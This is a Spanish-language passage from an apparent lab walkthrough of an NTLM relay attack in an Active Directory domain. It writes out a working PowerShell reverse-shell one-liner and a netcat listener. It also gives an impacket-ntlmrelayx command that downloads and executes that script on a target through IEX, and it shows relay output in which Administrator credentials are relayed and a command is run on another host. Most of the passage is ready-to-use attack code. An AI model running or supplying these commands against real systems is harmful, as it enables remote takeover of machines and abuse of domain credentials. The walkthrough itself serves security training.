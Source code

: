 Vemos que nos vuelve a funcionar, por lo que tendremos de alguna forma comprometida la maquina con dicho usuario.

Lo que podemos tambien es ejecutar comandos directamente con la herramienta `ntlmrelayx`, en este caso ejecutaremos un `One Line` de `PowerShell` para hacernos una `reverse shell` a nuestro equipo.

Antes nos iremos a la pagina de la `One Line` que nos copiaremos:

URL = [GitHub OnleLine PowerShell ReverseShell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

```shell
nano shell.ps1

#Dentro del nano
$client = New-Object System.Net.Sockets.TCPClient('192.168.5.205',7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Lo guardamos y abriremos un servidor de `python3` para que lo pueda obtener la herramienta con el comando que vamos a ejecutar, ya que lo que vamos hacer es en el comando despues del `-c` obtener desde el servidor de `python3` el script y ejecutarlo a la misma vez para obtener la `reverse shell`.

```shell
python3 -m http.server
```

Tambien nos pondremos a la escucha para dejarlo listo de la siguiente forma:

```shell
nc -lvnp 7777
```

Y por ultimo vamos a ejecutar el comando para obtener dicha `shell`.

```shell
impacket-ntlmrelayx -smb2support -tf targets.txt -c "powershell -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.5.205:8000/shell.ps1')\""
```

Ahora teniendo todo preparado, tendremos que ejecutar de neuvo un recurso compartido que no exista de la siguiente forma:

```powershell
dir \\fhuisjf\c$
```

Y si nos volvemos a donde tenemos la escucha con `nc` veremos lo siguiente:

Info:

> impacket-ntlmrelayx:

```
[*] Received connection from CORP/Administrator at DC01, connection will be relayed after re-authentication
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from CORP/ADMINISTRATOR@192.168.5.5 controlled, attacking target smb://192.168.5.208
[*] Authenticating against smb://192.168.5.208 as CORP/ADMINISTRATOR SUCCEED
[*] All targets processed!
[*] SMBD-Thread-5 (process_request_thread): Connection from CORP/ADMINISTRATOR@192.168.5.5 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Executed specified command on host: 192.168.5.208
[-] SMB SessionError: code: 0xc0000043 - STATUS_SHARING_VIOLATION - A file cannot be opened because the share access flags are incompatible.
```